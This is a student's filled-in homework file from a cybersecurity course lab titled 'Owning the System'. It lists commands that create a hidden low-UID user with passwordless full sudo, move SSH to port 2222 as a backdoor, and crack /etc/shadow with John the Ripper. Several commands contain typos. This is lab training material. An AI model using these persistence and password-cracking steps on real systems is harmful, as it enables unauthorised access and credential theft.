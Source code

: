 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
   
    - `adduser sysd`

    

2. Give your secret user a password: 
   
    - `cybersecurity`

3. Give your secret user a system UID < 1000:
  
    - `nano etc/passwd
        change UID value to 468`

4. Give your secret user the same GID:
  
   - `nano etc/passwd`
        change GID value to 468


5. Give your secret user full `sudo` access without the need for a password:
   -  
   `nano etc/sudoers
        enter under user pivilege specification
            sysd    ALL=(ALL:ALL) NOPASSWRD:ALL `

6. Test that `sudo` access works without your password:
   
    sudo nano etc/sudoers
   

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

sshd.config
uncomment and adjust the line port22
    port 2222
    

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    
    - `sudo systemctl restart ssh.service
    `

2. Exit the `root` account:
    - 
    `su sysd`
        `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
   
    sudo -s
    - `cd /etc
        john shadow`
 
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

